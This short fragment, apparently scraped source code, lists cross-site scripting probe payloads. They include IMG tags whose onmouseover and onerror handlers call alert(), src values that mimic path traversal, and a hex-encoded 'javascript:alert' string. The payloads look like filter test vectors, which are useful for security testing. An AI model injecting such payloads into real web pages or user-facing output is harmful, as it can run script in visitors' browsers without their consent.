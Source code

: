 <IMG onmouseover="alert('xxs')" onerror='alert(2)' src="hello">
  <IMG onmouseover="alert('xxs')" onerror='alert(2)' src="../hellox">
<IMG onmouseover="alert('xxs')" onerror='alert(21)' src="../../../../../../">
  <IMG onmouseover="alert('xxs')" onerror='alert(22)' src="../google.co'm%22xx">
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
